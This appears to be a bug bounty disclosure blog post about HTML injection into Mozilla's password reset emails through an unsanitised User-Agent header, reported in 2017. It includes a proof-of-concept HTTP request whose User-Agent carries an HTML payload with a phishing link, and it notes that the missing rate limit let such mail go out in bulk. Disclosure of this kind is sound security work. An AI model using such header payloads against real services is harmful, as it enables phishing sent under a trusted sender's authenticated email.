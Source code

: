 ```yaml
---
layout: post
title:  "Unintended control over the email body in the password reset notification - Mozilla"
date:   2020-08-05 21:44:46 -0800
categories: blog
---
```

While testing Mozilla, I found it was possible to include HTML code and plaintext content in the password reset email coming from Mozilla.
<br />


When resetting the password on Mozilla, I found Mozilla includes browser, OS, and IP in its email notification. They were trying to parse the user-agent string into a readable device description from the request, but when no valid user-agent is provided then the whole string is taken as device description and then the string gets inserted into the email without any further sanity checks. This allows us to include HTML content into the email. 


**POC**


```http
POST /v1/password/forgot/send_code HTTP/1.1
Host: api.accounts.firefox.com
User-Agent: <br><br>This is fake message with fake <a href="http://phishing-url.com">http://phishing-url.com/</a><br><br>
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Referer: https://accounts.firefox.com/
Content-Length: 597
Origin: https://accounts.firefox.com
Connection: close

data...
```

<br />
The email looks something like
![](/images/mozilla.png)


There wasn't any rate limit on password reset functionality. So, it was possible to send emails in bulk with relevant DKIM/SPF checks passing.

**Timeline**

May 24, 2017 - Report Sent\
Jun 13, 2017 - Bounty Awarded by Mozilla
